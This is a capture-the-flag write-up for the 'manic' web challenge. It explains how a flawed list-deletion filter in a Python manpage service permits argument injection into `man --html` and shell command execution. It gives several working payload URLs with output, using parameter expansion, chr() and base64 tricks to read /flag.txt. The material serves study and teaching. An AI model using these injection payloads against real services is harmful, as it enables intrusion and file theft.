









## Background

On the 8th of February, I participated in the Team Oceania CTF Qualifiers for 8 hours. In order to qualify for the team:

```
The qualification criteria is…

We’ll automatically qualify the two fastest full clears in each category (Rev, Web, Crypto, Pwn, Forensics). If you full clear more than one only your fastest qualifying category counts (so the first one you get 1st or 2nd place in)
We’ll also qualify the top 6 on the leaderboard who did not previously qualify.

Points will use dynamic scoring and only eligible players will affect the scoring (everyone else will be hidden).

The other criteria are…

Must be born on or after 1st January 1999.
Must be over 18 years of age on the date of the international competition (roughly November)
Must be a citizen/permanent resident of Australia, New Zealand, or a Pacific Island country.
```

Since I was born in 1999, I am elligible to qualify, so I attempted to try my best at the web category and get top 2. I was able to get first blood on the `login` challenge but unfortunately the challenge took me a long time to solve, so I was unable to solve the remaining two web challenges. They were REALLY good web challenges and wanted to give a massive shout out to [hashkitten](https://x.com/hash_kitten) who authored these challenges. I think if the quality of the challenges were poor, I would have been salty about not making the team but since I knew they were really well-made, I have a lot of confidence in the selection process, and I am looking forward to Team Oceania bringing home the gold!

I have written writeups for the following web challenges:

- [manic (180)](#manic-180)
- [beans (230)](#beans-230)
- [login (235)](#login-235)

## manic (180)

### Description

Hackers keep getting into my manpage service!

http://challenges.oceaniacc.com:5001 

### Attachments

[src-manic.tar.gz](https://github.com/AustICCQuals/Challenges2025/raw/refs/heads/main/web/manic/publish/src-manic.tar.gz)

### Writeup

#### What is this application

For this web challenge we are provided the source code via the attached compressed file `src-manic.tar.gz`. We decompress with the following command:

```
tar xvf src-manic.tar.gz
```

The source code consists of a python web application which essentially allows us to read the manual pages for specified commands.

For example, browsing to the link `http://challenges.oceaniacc.com:5001/1/grep` will give us section 1 of the `grep` command manual page.



How this works is it's essentially running the `man` command in the backend with the arguments inputted within the URL, and displaying the output on the webpage:

```
man 1 grep
```

This logic can be observed at `app.py#L11-L23`

```python
@app.route('/<path:command>')
def show_man_page(command):
    command_list = command.split('/')

    # Only alphanumeric please
    for i, cmd in enumerate(command_list):
        if not cmd.isalnum():
            del command_list[i]

    result = subprocess.run(['man', *command_list], capture_output=True, text=True)
    output = result.stderr if result.returncode != 0 else result.stdout

    return render_template('manpage.html', content=output)
```

Let's break down the code so that we can understand the security controls in place and if there are any vulnerabilities that arise.

#### Source code breakdown

First, let's look at how the user inputs are initially passed.

```python
@app.route('/<path:command>')
def show_man_page(command):
    command_list = command.split('/')
```

A route is set up at the root of the webpage "/" and defines a dynamic URL parameter named `command` with the type `path`. Any input in the URL path after the root "/" will be saved in this `command` parameter.

This command parameter is passed to the `show_man_page` function and the value is split into a list, with the delimiter being "/".

For example, when the URL is `/1/grep`, the value of command will be `1/grep` and the value of `command_list` will become `["1","grep"]`.

Following this, we observe a security control that attempts input sanitisation:

```python
    # Only alphanumeric please
    for i, cmd in enumerate(command_list):
        if not cmd.isalnum():
            del command_list[i]
```

This code iterates through the `command_list` list with `i` being the index of the iteration and `cmd` being the value at the index.

For each iteration, using the [isalnum](https://docs.python.org/3/library/stdtypes.html#str.isalnum) function, if the value contains any characters that are not letters or digits, the list is modified to remove the current index.

While this could be seen as appropriate input filtering to not allow special characters, a bypass can occur due to modifying the list while it is being iterated through.

Say our `command_list` variable contains the value `["1","i!!egal","also_illeg@l", "valid", "also_valid"]`. You would expect index 1 and 2 of the array to be deleted to result in `["1", "valid", "also_valid"]`. However, this is not the case.

Let's see what happens in each iteration.

Iteration 0:

```
command_list=["1","i!!egal","also_illeg@l", "valid", "also_valid"]
i=0
cmd="1"

is cmd alphanumeric? YES

nothing happens
```

Iteration 1:

```
command_list=["1","i!!egal","also_illeg@l", "valid", "also_valid"]
i=1
cmd="i!!egal"

is cmd alphanumeric? NO

Delete command_list[1]:
command_list=["1","also_illeg@l", "valid", "also_valid"]
```

Iteration 2:

```
command_list=["1","also_illeg@l", "valid", "also_valid"]
command_list=["1","also_illeg@l"]
i=2
cmd="valid"

Wait what we skipped the "also_illeg@l" value?
```

After the rest of the iterations, as the following values are valid, nothing else gets deleted:
```
command_list=["1","also_illeg@l", "valid", "also_valid"]
```

This occurs because when we process index 1 and delete it, the value of index 1 becomes the value of index 2, and so on the next iteration at index 2, we have skipped the original value of index 2.

We have successfully found a bypass on the input sanitisation method, now allowing us to input arbitrary characters (besides "/" due to the split function removing all of those).

Moving on to the juicy part, command execution!

```python
    result = subprocess.run(['man', *command_list], capture_output=True, text=True)
    output = result.stderr if result.returncode != 0 else result.stdout
```

We can see that the `man` command is executed with arguments provided by the user. If the inputs were only alphanumeric, then this code may not vulnerable, but as we found a way to bypass the input sanitisation, we can use hyphens to do argument injection.

#### Finding the right argument to inject

One thing I tried to do is to see if we can do things such as glob expansions or command substitution, however, due to how the run function works, command substitutions or other shell shenanigans won't be executed.

Let's step back to see what our objectives are. To obtain the flag, we can:

1. Attempt to read the flag file at `/flag.txt` with the `man` binary
2. Execute other binaries to obtain the contents of `/flag.txt`

The location of the flag can be observed at `Dockerfile#L11`:

```
COPY flag.txt /
```

This part will require you to research each option until you are able to read the flag file. During my attempt of the challenge, I thought I could change the MANPATH and change the extensions of man pages that I read:

```
-M, --manpath=PATH         set search path for manual pages to PATH
...
-e, --extension=EXTENSION  limit search to extension type EXTENSION
```

Testing `man --manpath=/ --extension=txt` locally did not work unfortunately and resulted me in getting stuck on why that didn't work. I never found out why due to the lack of documentation and was unable to solve the challenge during the CTF duration.

On review of the solution after the CTF finished, I felt very silly not checking this option out.

```
-H, --html[=BROWSER]       use www-browser or BROWSER to display HTML output
```

The fact that it says `www-browser` is a big hint because I have seen it link to the lynx browser in Debian. I can see this on my Debian install:

```
$ which www-browser
/usr/bin/www-browser
$ ls -l /usr/bin/www-browser
lrwxrwxrwx 1 root root 29 Oct 28 14:38 /usr/bin/www-browser -> /etc/alternatives/www-browser
$ ls -l /etc/alternatives/www-browser
lrwxrwxrwx 1 root root 13 Oct 28 14:38 /etc/alternatives/www-browser -> /usr/bin/lynx
```

So, theoretically, if I specify another binary that isn't a browser, it should execute. I tried to do this locally and execute the `ls` command, but it didn't work. I don't know the reason why but might be because it's a different implementation of `man` compared to the container's `man` binary.

```
$ man --html=ls man
man: command exited with status 3: (cd /tmp/hmanyFvR7I && /usr/libexec/man-db/zsoelim) | (cd /tmp/hmanyFvR7I && /usr/libexec/man-db/manconv -f UTF-8:ISO-8859-1 -t UTF-8//IGNORE) | (cd /tmp/hmanyFvR7I && preconv -e UTF-8) | (cd /tmp/hmanyFvR7I && tbl) | (cd /tmp/hmanyFvR7I && groff -mandoc -Thtml)
```

*EDIT: Someone mentioned it not working on local machine on discord after the CTF and hashkitten (the author) mentioned you need to install some packages.*


I ran it in a local docker container instead, using the provided Dockerfile to match the exact environment and I was able to execute the `ls` binary!

```
$ docker build -t manic .
$ docker run -it --entrypoint bash manic
nobody@21aa2caa1ab3:/app$ man --html=ls man
/tmp/hmandNHcO9/man.html
```

#### Utilising the command injection

Testing with a few other commands, I found that the command being executed will look like this:

```
<BROWSER> <TMP_DIR>/<COMMAND>.html
```

So `man --html=ls man` will execute `ls /tmp/<RANDOM_STRING>/man.html`.

You can also include arguments for your commands like `man --html="ls -l" man`

Now all we have to do is read the flag!

```
man --html="cat /flag.txt" man
```

Sure that works on the docker container, however, there's a forward slash required in our payload! To bypass this, we identify that the command we specify in the HTML argument is safe from the `subprocess.run` function's safe argument passing, allowing us to do shell expansions. Therefore, we can specify a slash with parameter expansion as we know the first character of the env variable `PATH` will be "/": 

```
${PATH:0:1}
```

Our final command executed in the container will look like this:

```
nobody@21aa2caa1ab3:/app$ man --html="cat ${PATH:0:1}flag.txt" man
oiccflag{test}
<!-- Creator     : groff version 1.22.4 -->
<!-- CreationDate: Wed Feb 12 13:47:14 2025 -->
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN"
"http://www.w3.org/TR/html4/loose.dtd">
<html>
<head>
<meta name="generator" content="groff -Thtml, see www.gnu.org">
<meta http-equiv="Content-Type" content="text/html; charset=US-ASCII">
... SNIPPED ...
```

Ok now we got a PoC working in the container. Time to convert this in URL form:

```
http://challenges.oceaniacc.com:5001/$/--html="cat ${PATH:0:1}flag.txt"/man
```

When sending this we get the following error:

```
sh: 1: Syntax error: Missing '}'
sh: 1: 0: not found
sh: 1: 1}flag.txt: not found
man: couldn't execute any browser from cat ${PATH:0:1}flag.txt
```

Weird, is it not expanding properly? I try with just `${PATH}`:

```
http://challenges.oceaniacc.com:5001/$/--html=cat%20$%7BPATH%7Dflag.txt/man

cat: '/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binflag.txt': No such file or directory
man: couldn't execute any browser from cat ${PATH}flag.txt
```


Ok it actually resolved the `PATH` variable. It is known that the colons to extract substrings in parameter expansions don't work in `sh`, so maybe it's executing in a primitive shell. Looking at the solution, it uses the `%` operator which is used for pattern removal in parameter expansion. I can use this operator instead to remove the rest of the string to only give me `/`. I can't use `PATH` though because it contains multiple forward slash characters. Let's see what the value of `PWD` is.

```
http://challenges.oceaniacc.com:5001/$/--html=cat%20$%7BPWD%7Dflag.txt/man

cat: /appflag.txt: No such file or directory
man: couldn't execute any browser from cat ${PWD}flag.txt
```

> Note: `PATH` and `PWD` are well-known environment and shell variables. You can check out more common variables [here](https://www.digitalocean.com/community/tutorials/how-to-read-and-set-environmental-and-shell-variables-on-linux#common-environmental-and-shell-variables) but I prefer just executing the `env` command in the docker container to see what's available.

I can determine that `PWD` is `/app`. So if I do `${PWD%app}`, this will result in just `/`. The final payload is here:

```
http://challenges.oceaniacc.com:5001/$/--html=cat${PWD%app}flag.txt/man
```

URL Encoded:

```
http://challenges.oceaniacc.com:5001/$/--html=cat%20$%7BPWD%7Dflag.txt/man
```



At the very top is our lovely flag!

```
oiccflag{i_wish_i_did_this_more_securely_10a287eb}
```

#### Other command injection payloads

I wanted to note a few other payloads that were posted in the discord which I thought were interesting.

##### Python



```
http://127.0.0.1:1337/-1/-Hpython%20-c%20'print(open(chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)).read())'%20%23/man
```

Decoded URL:

```
http://127.0.0.1:1337/-1/-Hpython -c 'print(open(chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)).read())' #/man
```

Output:



Python code:

```python
print(open(chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)).read())
```

Equivalent Python code

```python
print(open("/flag.txt").read())
```

The use of the [chr](https://docs.python.org/3/library/functions.html#chr) function in Python is a common method to bypass character restrictions in Pyjails. In this case we are replacing the "/" character with `chr(47)`.

##### Base64


```
{base_url}/;/--html="$(echo%20\'L2ZsYWcudHh0\'|base64%20-d)"/;/-l/;/app.py

http://challenges.oceaniacc.com:5001/;/--html=%22$(echo%20'L2ZsYWcudHh0'|base64%20-d)%22/;/-l/;/app.py
```

Decoded URL:

```
{base_url}/;/--html="$(echo 'L2ZsYWcudHh0'|base64 -d)"/;/-l/;/app.py
```

Output:



Base64 allows the forward slash character to be encoded:

```
L2ZsYWcudHh0 -> (base64 decode) -> /flag.txt
```

Not sure why the `-l app.py` is there tbh. Might have been artifacts from previous injections. It still works but doesn't seem like it's required. The following works:

```
http://challenges.oceaniacc.com:5001/;/--html=%22$(echo%20'L2ZsYWcudHh0'|base64%20-d)%22/man
```

Decoded URL:

```
http://challenges.oceaniacc.com:5001/;/--html="$(echo 'L2ZsYWcudHh0'|base64 -d)"/man
```

One thing I tried with this payload is without the pipe character. So something like this would work if the `bash` shell was used:

```
$(base64 -d <<< 'L2ZsYWcudHh0')
```

However, this redirection operator doesn't work on `sh` which means it won't on this challenge.

Additionally, I wanted to highlight the use of the command substitution to print the flag in the error message rather than printing to `stdout` is very creative. However, this only works because the executable bit is set for the `flag.txt` file. 

```sh
$ ls -l /flag.txt
-rw-r--r-- 1 root root 12 Feb  8 18:14 /flag.txt
$ /flag.txt
sh: 11: /flag.txt: Permission denied
$ sudo chmod +x /flag.txt
$ /flag.txt
/flag.txt: 1: oicc{hello}: not found
```

If stderr is not outputted or the executable bit is not set, I would make the payload like this:

```
http://challenges.oceaniacc.com:5001/;/--html=cat%20$(echo%20'L2ZsYWcudHh0'|base64%20-d)/man
```

URL decoded:

```
http://challenges.oceaniacc.com:5001/;/--html=cat $(echo 'L2ZsYWcudHh0'|base64 -d)/man
```

Note a very interesting behaviour between the two payloads:

```
http://challenges.oceaniacc.com:5001/;/--html=%22cat%20$(echo%20'L2ZsYWcudHh0'|base64%20-d)%22/man
```



```
http://challenges.oceaniacc.com:5001/;/--html=cat%20$(echo%20'L2ZsYWcudHh0'|base64%20-d)/man
```



The difference is that the value for the `--html` argument is wrapped with double quotes. When wrapped with double quotes, the payload does not work. This is because when wrapping the initial command in a shell with double quotes, it will include the spaces as a part of the binary that it's searching for to execute.

```sh
$ "ls -l"
sh: 15: ls -l: not found
$ ls -l
total 12
-rw-r--r-- 1 solopie solopie   89 Jan 14 22:51 README.m
```

##### Bruh

I found this one funny for some reason. The one thing I love about CTFs is that sometimes you'll find a solution that seems very obvious but completely crosses your mind. No need for fancy expansions!




```
http://challenges.oceaniacc.com:5001/-/-Hcd%20..%26%26cat%20flag.txt/-/man
```

Decoded URL:
```
http://challenges.oceaniacc.com:5001/-/-Hcd ..&&cat flag.txt/-/man
```

Traverse to parent directory and read the flag... As simple as it can get (as far as I know)!




Sorry if I missed out on any other payloads. Feel free to let me know of any other ideas in the comments and I'll add them in if they work!

#### Post challenge thoughts

The reason why I couldn't solve this challenge was due to my methodology when enumerating what arguments I could abuse. I lacked the experience to identify certain characteristics of arguments that would achieve the objective of reading the flag. In order to improve in this aspect, I have developed a blog to explore enumerating a binary's options and identifying potential risks to arguments in binaries [here (WIP)]().

Another thing I wanted to explore is how the `man` binary is finding the files to read and to see if I could create other CTF challenges with exploit chains utilising the `man` binary. You can find the blog for my `man` journey [here (WIP)]().

## beans (230)

WIP

## login (235)

WIP